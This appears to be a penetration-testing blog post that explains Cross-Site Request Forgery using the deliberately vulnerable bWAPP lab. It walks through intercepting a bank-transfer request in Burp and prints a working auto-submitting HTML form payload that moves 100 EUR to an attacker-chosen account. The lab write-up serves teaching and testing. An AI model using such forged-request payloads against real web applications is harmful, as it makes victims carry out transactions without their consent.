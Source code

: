 ```yaml
---
title: Cross-Side Request Forgery
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Cross-Side Request Forgery]
tags: []  
---
```


# Cross-Side Request Forgery (csrf)

Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing.

# Exploitation

![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf1.png)

This webapp is vulnerable to csrf which allows attacker to trick user into transfering money to attacker's choosing account.

we will first transfer `10 EUR` to `123-45678-90` to see how the webapp is working.

![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf2.png)

Done. You can see we have been charged 10 EUR and our balance was `980 EUR`.

Let's repeat again with `100 EUR` and intercept the request in burp. We will use the intercepted request to create an csrf payload.

![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf3.png)

By examing the request, our payload will be something like

```html

<html>

	<head>
	</head>
	<body> 
		<form action="http://192.168.43.14/bWAPP/csrf_2.php" method="GET">
			<input type="hidden" name="account" value="173-46078-907"/>
			<input type="hidden" name="amount" value="100"/>
			<input type="hidden" name="action" value="transfer"/>
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>

</html>

```
We will host the payload in our server and make the user visit our site.


![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf4.png)

![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf5.png)

As you can see,the user was charged 100 making his balance `880 EUR`.

# References

- [https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)
